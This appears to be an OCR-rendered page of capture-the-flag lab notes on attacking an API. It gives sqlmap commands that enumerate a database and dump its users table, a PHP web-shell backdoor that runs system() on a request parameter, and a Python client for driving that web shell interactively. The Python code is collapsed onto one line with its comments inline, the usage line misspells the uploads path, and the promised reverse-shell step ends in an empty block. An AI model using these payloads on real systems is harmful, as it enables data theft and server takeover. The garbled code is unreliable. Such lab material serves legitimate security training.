 # Information Disclosure through SQL Injection
SQL injection vulnerabilities can affect APIs as well. That id parameter looks interesting. Try submitting classic SQLi payloads and answer the second question.
```
sqlmap -u "http://10.129.202.133:3003/?id=1" --batch
```
```
sqlmap -u "http://10.129.202.133:3003/?id=1" --tables -D htb
```
```
sqlmap -u "http://10.129.202.133:3003/?id=1" --dump -T users -D htb 
```
# Arbitrary File Upload
Arbitrary file uploads are among the most critical vulnerabilities. These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server. Arbitrary file upload vulnerabilities affect web applications and APIs alike.
## PHP File Upload via API to RCE
1. Let us create the below file (save it as backdoor.php) and try to upload it via the available functionality. (add `<?`  and `?>` to the file)
```
php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }
```
The above allows us to append the parameter cmd to our request (to backdoor.php), which will be executed using system(). This is if we can determine backdoor.php's location, if backdoor.php will be rendered successfully and if no PHP function restrictions exist.
2. We can use the below Python script (save it as web_shell.py) to obtain a shell, leveraging the uploaded backdoor.php file.
```
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands) parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example. if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu parser.print_help() # shows help menu elif args.target and args.payload: # elif (if they both have values do some action) print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell) os.system("clear") # clear the screen (linux) while True: # starts a while loop (never ending loop) try: # try statement cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value time.sleep(0.3) # waits 0.3 seconds during each request except requests.exceptions.InvalidSchema: # error handling print("Invalid URL Schema: http:// or https://") except requests.exceptions.ConnectionError: # error handling print("URL is invalid"
```
Use the above script as follows: 
```
python3 web_shell.py -t http://<TARGET IP>:3001/uplosfd/backdoor.php -o yes
```
3. To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above. Ensure that an active listener (such as Netcat) is in place before executing the below.
```
```